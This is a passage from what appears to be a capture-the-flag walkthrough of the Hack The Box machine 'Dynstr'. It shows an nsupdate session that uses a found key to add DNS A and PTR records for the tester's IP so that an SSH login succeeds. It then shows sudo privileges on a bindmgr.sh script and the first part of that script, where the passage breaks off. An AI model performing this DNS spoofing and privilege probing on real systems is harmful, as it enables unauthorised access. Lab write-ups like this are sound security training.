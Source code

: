 ```
www-data@dynstr:/etc/bind$ nsupdate -k infra.key 
> server 127.0.0.1
> zone dyna.htb
> update add rouvin.infra.dyna.htb 86400 A 10.10.14.13
> send
> zone 10.in-addr.arpa
> update add 13.14.10.10.in-addr.arpa 86400 PTR rouvin.infra.dyna.htb
> send
```

Afterwards, we can `ssh` in as the user:

<figure><img src="../../../.gitbook/assets/image (39) (10) (1).png" alt=""><figcaption></figcaption></figure>

### Sudo

When checking `sudo` privileges, this is what we see:

```
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```

Here's the contents of the script:

```bash
#!/usr/bin/bash

# This script generates named.conf.bindmgr to workaround the problem
# that bind/named can only include single files but no directories.
#
# It creates a named.conf.bindmgr file in /etc/bind that can be included
# from named.conf.local (or others) and will include all files from the
# directory /etc/bin/named.bindmgr.
#
# NOTE: The script is work in progress. For now bind is not including
#       named.conf.bindmgr. 
#
# TODO: Currently the script is only adding files to the directory but
#       not deleting them. As we generate the list of files to be included
#       from the source directory they won't be included anyway.

BINDMGR_CONF=/etc/bind/named.conf.bindmgr
BINDMGR_DIR=/etc/bind/named.bindmgr

indent() { sed 's/^/    /'; }

# Check versioning (.version)
echo "[+] Running $0 to stage new configuration from $PWD."
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
```